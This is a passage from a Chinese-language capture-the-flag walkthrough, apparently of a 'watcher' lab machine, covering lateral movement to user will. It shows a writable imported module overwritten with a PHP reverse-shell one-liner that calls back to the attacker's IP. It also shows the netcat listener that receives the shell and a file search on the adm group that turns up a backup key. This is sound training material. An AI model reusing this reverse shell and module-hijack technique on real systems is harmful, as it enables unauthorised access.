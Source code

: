 os.system(cmd)
$ ls -alh /home/mat/scripts/will_script.py
-rw-r--r-- 1 will will 208 Dec  3  2020 /home/mat/scripts/will_script.py
```

查看```script```里面的文件，我们发现cmd.py用mat用户是可以编辑的，也就是说只要我们改写这个文件获得一个反弹shell就可以横向提权到will的账号

修改```cmd.py```为：
```
import os
cmd = """php -r '$sock=fsockopen("10.13.21.169",4243);exec("/bin/sh -i <&3 >&3 2>&3");'"""
os.system(cmd)

```

开启另一个端口监听4243

执行下面命令：
```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py ls
```


拿到用户```will```的反弹shell：
```
┌──(root💀kali)-[~]
└─# nc -lnvp 4243                                                                                                                                                                                                                       1 ⨯
listening on [any] 4243 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.208.80] 59666
$ id
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)

```

在will目录下拿到flag6

adm用户组不是一个寻常的用户组，查看```adm```的用户组文件
```
find / -group adm  >/tmp/a.txt

will@watcher:/home/will$ cat /tmp/a.txt
cat /tmp/a.txt
/opt/backups
/opt/backups/key.b64
/var/log/auth.log
/var/log/kern.log
/var/log/syslog
/var/log/apache2
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache2/other_vhosts_access.log
/var/log/cloud-init.log
/var/log/unattended-upgrades
/var/log/unattended-upgrades/unattended-upgrades-dpkg.log
/var/log/apt/term.log
/var/spool/rsyslog
